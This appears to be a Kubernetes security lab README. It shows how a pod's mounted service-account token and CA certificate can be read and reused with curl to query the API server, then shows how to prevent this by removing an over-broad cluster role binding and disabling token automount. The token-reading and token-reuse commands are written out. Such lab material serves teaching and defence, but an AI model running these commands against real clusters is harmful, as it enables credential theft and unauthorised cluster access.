 # Identity theft

In this lab you will steal the identity of a pod.

## Attack

### Getting the credentials

```bash
# verify the sensitive data in the pod
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

### Exploiting the API-Server

```bash
# store the token into an env variable
TOKEN=$(kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token)

# store the CA into a file
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt > ca.crt

# get infos about pods
curl -s $API_SERVER/api/v1/namespaces/default/pods --header "Authorization: Bearer $TOKEN" --cacert ca.crt
```

> Note, as long you have these sensitive informations you can do also a curl to the api-server from the outside, as soon you expose the api-server to the outside.

## Avoiding the Attack

### Checking the permissions

```bash
# check permissions in the default namespace
kubectl auth can-i delete pods
kubectl auth can-i --list

# check the clusterrolebinding
kubectl describe clusterrolebinding my-suboptimal-clusterrolebinding

# check the permissions of the cluster role
kubectl describe clusterrole cluster-admin
```

### Disable permissions

```bash
# disable permissions
kubectl delete clusterrolebinding my-suboptimal-clusterrolebinding

# try to get infos about pods - now this should fail
curl -s $API_SERVER/api/v1/namespaces/default/pods --header "Authorization: Bearer $TOKEN" --cacert ca.crt
```

### Avoiding token mounts

Disable automount of ServiceAccount Token in the file `pod.yaml`

```yaml
spec:
  automountServiceAccountToken: false # <= disable automount of ServiceAccount Token
```

```bash
kubectl apply -f pod.yaml --force
```

#### Verify sensible data is not mounted anymore

```bash
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

#### ServiceAccountToken

Note that you can avoid mounting these sensitive informations also on ServiceAccount level.

```yaml
apiVersion: v1
kind: ServiceAccount
metadata:
  name: my-service-account
automountServiceAccountToken: false
```
